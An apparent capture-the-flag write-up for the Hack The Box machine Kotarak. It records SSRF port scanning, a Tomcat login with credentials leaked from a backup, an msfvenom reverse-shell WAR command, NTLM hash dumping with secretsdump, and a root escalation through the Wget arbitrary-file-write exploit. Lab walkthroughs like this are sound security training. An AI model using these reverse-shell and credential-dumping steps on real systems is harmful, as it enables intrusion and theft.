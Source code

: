 ```yaml
---
title: "Hack The Box - Kotarak"
tags: [linux,hard,ssrf,tomcat,ntds.dit,ntlm,secretsdump,wget,cronjob]
categories: HackTheBox-Linux
---
```


![image](https://user-images.githubusercontent.com/66876484/200165591-01fc8ffd-82b3-44b3-a126-893a5dc223d7.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png)

## *NMAP*
This Machine is the Hard level machine so i will prefer the Full Port Scan :- 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nmap.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nmap.png)


## *Enumerating [ SSRF ]*

-> So on port 8080 we have our Tomcat running . On port 60000 we have an webpage that sends an GET request on the url provided :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)

-> If we try to read /etc/passwd the The word **`file`** is filtered which stops us from reading local files. Although we are able to use [localhost](http://localhost) and access this and the tomcat page :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png)

=> Scanning Ports on [localhost](http://localhost) using wfuzz 

**`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`**
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png)

→ [localhost:888](http://localhost:888) has interesting things :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png)

→ Taking a look at **backup** option.

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png)

We got credentials for tomcat

```
admin : 3@g01PdhB!
```

⇒ Logged in on tomcat manager page. Uploaded a WAR msfvenom shell and popped a shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war
```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png)

*Starting out netcat 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png)

---

### *Privilege Escalation [ tomcat to atanas ]*

⇒ In /home/tomcat/to_archive/pentest_data  folder we find 2 interesting files which looks like one of them is ntds.dit and the other is system registry file
   .dir file contains the details for the ad environment and .bin is registry file  :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png)

Lets run [secretsdump.py](http://secretsdump.py) [ a tool from impacket ] to retrieve ntlm hashes

```bash
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
```  

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png)

→ Cracking the NTLM hash

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png)

→ The credentials work and we are able to switch to user atanas : 

**`atanas : f16tomcat!`**

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png)

### *Privilege Escalation to Root*

⇒ We are able to read and write files in root directory. We find the following :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png)

→ Looks like there's another   machine on the network with the ip [ 10.0.3.133 ] which is running an wget request  on  http server. We can also see the version of Wget being used  ( Wget/1.16 ). There's an exploit for this version of wget being used

Exploit : [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064)

```bash
GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or 
compromised web server) can be tricked into saving an arbitrary remote file 
supplied by an attacker, with arbitrary contents and filename under 
the current directory and possibly other directories by writing to .wgetrc.
Depending on the context in which wget is used, this can lead to remote code 
execution and even root privilege escalation if wget is run via a root cronjob 
as is often the case in many web application deployments.
```

⇒ So in this exploit we will create a 301x redirect , when the user machine  try to access that wget archive  file it will redirected to the  ftp server and that ftp server will be running  on our own attacker machine that will serve a malicious file which will give us root access 

→ Creating malicious .wgetrc File on our Own machine  that we will be serving :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png)


=> Run pythonftp server on attacker machine , i.e our own machine 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png)

First we need to Edit our exploit and then transfer it into our victim machine  Using python http server on attcker  and wget on victim  :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wget.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wget.png)

=> Start Nc Listener 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nc%20lis.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nc%20lis.png)

=> Runing exploit.py on Victim server but it doesn't allow us to do so. There is authbind on the system which allows a program which does not or should not run as root to bind to low-numbered ports in a controlled way

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/auth%20python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/auth%20python.png)

=> After Waiting for Few Minutes it will give us a shell ( be patience  it will take time ) 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/sad.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/sad.png)









